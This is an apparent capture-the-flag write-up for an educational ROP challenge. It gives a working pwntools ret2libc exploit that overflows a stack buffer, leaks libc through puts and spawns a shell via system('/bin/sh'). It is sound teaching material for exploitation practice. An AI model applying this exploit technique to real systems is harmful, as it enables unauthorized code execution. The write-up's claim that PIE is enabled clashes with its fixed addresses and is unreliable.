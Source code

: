 ```yaml
---
title: "Rop1 Writeup"
date: 2022-04-10T18:53:03-04:00
draft: false
---
```



Challenge is from [https://github.com/n132/CTF-Challenges/tree/main/Educational/How2ROP](https://github.com/n132/CTF-Challenges/tree/main/Educational/How2ROP)

### **Analysis:**

From the decompiled code in ida, we can learn that the source code looks something like this:

```c
int main()
{
		char buf[256];
		puts("n132");
		read(0, buf, 512);
		return 0;
}
```

Our goal is to replace `puts` with `system` and replace the argument with “/bin/sh”. However, we cannot use libc.sym directly because PIE is enabled and libc will be loaded to different address every time, so that the runtime address for the program will be different every time. Therefore, our first goal is to leak the libc base address.

Because the script has an output function `puts`, we can leak the libc base address by overflowing the buffer and return to a `put` function, and output the base address by subtracting the libc `puts` address from the runtime puts address. Finally, with the base address, we return to the start of the `main` function and start our attack. We can overflow the buffer again and this time we return to the `system` function with “/bin/sh”.

### Exploit:

```python
context.arch='amd64'
context.terminal=['tmux','split','-h']
e=ELF('./pwn')
p=process('./pwn')
sla = lambda a,b: p.sendlineafter(a,b)
sa  = lambda a,b: p.sendafter(a,b)
ra  = lambda a: p.readuntil(a)

gdb.attach(p, 'b *0x400594')
#offset = 283552
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
# find gadget (pop rdi, ret)
rdi = 0x400603
# leak puts(some)
# rdi puts(got) puts(plt) main
sla("\n",b'B'*0x100+p64(0)+p64(rdi)+p64(e.sym.got.puts)+p64(e.sym.puts)+p64(e.sym.main))
base = u64(p.readline()[:-1]+b'\0\0')-libc.sym.puts
log.warning(hex(base))
libc.address = base
# attack : system("/bin/sh")
sla("\n",b'A'*0x100+p64(0)+p64(rdi)+p64(next(libc.search(b'/bin/sh')))+p64(libc.sym.system))
p.interactive()
# pop rdi
# 1.get system /bin/sh's address
# 2.base addres + offset
# 3. leak libc
```

1. We know that the buffer is 0x100 bytes long, so we fill the first 0x100 bytes with arbitrary characters (here we use “B”s).
2. Overwrite `rbp` with 0’s
3. Since `puts` takes the stuffs in `rdi` as argument, we can find gadgets that includes `pop rdi, ret` and return to puts. There’s one at`0x400603`.
4. The GOT table has the true address for `puts`, so we pass `e.sym.got.puts` to the `puts` function.
5. After we retrieved the runtime address for `puts`, we subtract the libc puts address from the runtime address to get libc base address.
6. After that, we can start our attack by returning to main and do buffer overflow again.
7. We do the same thing but this time replace `puts` with `system` and pass “/bin/sh” to the `system` function.
8. Run the script and pop the shell!

